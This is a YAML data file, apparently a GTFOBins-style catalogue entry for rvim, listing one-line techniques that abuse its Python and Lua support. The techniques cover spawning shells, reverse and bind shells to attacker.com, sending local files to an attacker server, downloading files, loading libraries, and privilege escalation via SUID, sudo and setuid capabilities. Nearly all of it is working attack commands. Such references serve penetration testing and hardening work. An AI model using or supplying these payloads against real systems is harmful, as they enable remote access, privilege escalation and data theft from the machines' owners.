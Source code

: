 ```yaml
---
functions:
  shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rvim` is compiled with Lua support.
      code: rvim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rvim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        rvim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        rvim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        rvim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        rvim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - description: This requires that rvim is compiled with Python support. Prepend `:py3` for Python 3.
      code: |
        rvim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: rvim file_to_read
  library-load:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rvim` is compiled with Lua support.
      code: sudo rvim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `rvim` is compiled with Lua support.
      code: ./rvim -c ':lua os.execute("reset; exec sh")'
---
```

